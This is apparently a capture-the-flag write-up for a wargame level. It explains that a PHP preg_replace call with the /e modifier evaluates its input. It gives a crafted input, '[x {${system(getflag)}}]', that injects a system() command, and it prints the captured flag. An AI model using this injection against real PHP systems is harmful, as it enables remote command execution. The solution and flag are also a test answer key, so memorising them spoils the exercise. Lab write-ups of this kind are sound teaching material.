 HINT:
use a php beautifier and https://regex101.com/

ANSWER:
We use a php beautifier and https://regex101.com/, we see this line:
preg_replace("/(\[x (.*)\])/e", "y(\"\")", $a);
there is a know exploit with /e so we can abuse it.
run:
echo '[x {${system(getflag)}}]' > /tmp/exploit
and we get:
wiok45aaoguiboiki2tuin6ub